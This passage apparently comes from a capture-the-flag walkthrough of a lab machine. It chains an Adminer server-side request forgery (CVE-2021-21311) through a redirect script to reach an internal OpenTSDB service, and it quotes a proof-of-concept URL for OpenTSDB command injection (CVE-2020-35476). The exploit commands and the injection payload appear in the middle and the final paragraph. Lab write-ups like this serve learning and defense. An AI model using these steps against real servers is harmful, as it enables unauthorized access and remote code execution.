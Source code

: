 We start the redirect server with `python2 redirect.py --ip 10.10.14.169 http://localhost`. Now, intercepting the login request in BurpSuite and changing it the same as what we did previously, the login page displays a red error box with the source code for the service running on port 80.

Searching for the vulnerability on GitHub finds [llhala/CVE-2021-21311](https://github.com/llhala/CVE-2021-21311), which is an all-in-one script that will automatically parse the login page and pull out the retrieved source code.

We cannot bruteforce ports because after failing to "sign in" too many times we get this message "Too many unsuccessful logins, try again in 21 minutes."

Apparently, we were supposed to find port `4242` as filtered in our `nmap` report. So, let's try that.

We can run the [llhala/CVE-2021-21311](https://github.com/llhala/CVE-2021-21311) exploit script with `python3 CVE-2021-21311.py --host 10.10.14.169 --url http://db.admirer-gallery.htb --redirect http://127.0.0.1:4242`, which returns the following:

```
<!DOCTYPE html><html><head><meta http-equiv=content-type content="text/html;charset=utf-8"><title>OpenTSDB</title>
<style><!--
body{font-family:arial,sans-serif;margin-left:2em}A.l:link{color:#6f6f6f}A.u:link{color:green}.fwf{font-family:monospace;white-space:pre-wrap}//--></style><script type=text/javascript language=javascript src=s/queryui.nocache.js></script></head>
<body text=#000000 bgcolor=#ffffff><table border=0 cellpadding=2 cellspacing=0 width=100%><tr><td rowspan=3 width=1% nowrap><img src=s/opentsdb_header.jpg><td>&nbsp;</td></tr><tr><td><font color=#507e9b><b></b></td></tr><tr><td>&nbsp;</td></tr></table><div id=queryuimain></div><noscript>You must have JavaScript enabled.</noscript><iframe src=javascript:'' id=__gwt_historyFrame tabIndex=-1 style=position:absolute;width:0;height:0;border:0></iframe><table width=100% cellpadding=0 cellspacing=0><tr><td class=subg><img alt="" width=1 height=6></td></tr></table></body></html>
```

### OpenTSDB (`localhost:4242`)

According to the [OpenTSDB/opentsdb GitHub repo](https://github.com/OpenTSDB/opentsdb), "OpenTSDB is a distributed, scalable Time Series Database (TSDB) written on top of HBase.  OpenTSDB was written to address a common need: store, index and serve metrics collected from computer systems (network gear, operating systems, applications) at a large scale, and make this data easily accessible and graphable."

Searching for "opentsdb get version" finds [documentation for the `/api/version`](http://opentsdb.net/docs/build/html/api_http/version.html) endpoint. Let's get that endpoint using the Adminer exploit script by running `python3 CVE-2021-21311.py --host 10.10.14.169 --url http://db.admirer-gallery.htb --redirect http://127.0.0.1:4242/api/version`:

```
{"short_revision":"14ab3ef","repo":"/home/hobbes/OFFICIAL/build","host":"clhbase","version":"2.4.0","full_revision":"14ab3ef8a865816cf920aa69f2e019b7261a7847","repo_status":"MINT","user":"hobbes","branch":"master","timestamp":"1545014415"}
```

According to the [releases page](https://github.com/OpenTSDB/opentsdb/releases), v2.4.1 is the latest version. In the changelog we see "Fix for [CVE-2020-35476](https://github.com/advisories/GHSA-hv53-q76c-7f8c) that now validates and limits the inputs for Gnuplot query parameters to prevent remote code execution." This leads us to [this GitHub issue](https://github.com/OpenTSDB/opentsdb/issues/2051) ([relevant GitHub advisory](https://github.com/advisories/GHSA-hv53-q76c-7f8c)), which has a poc: `http://opentsdbhost.local/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json`.
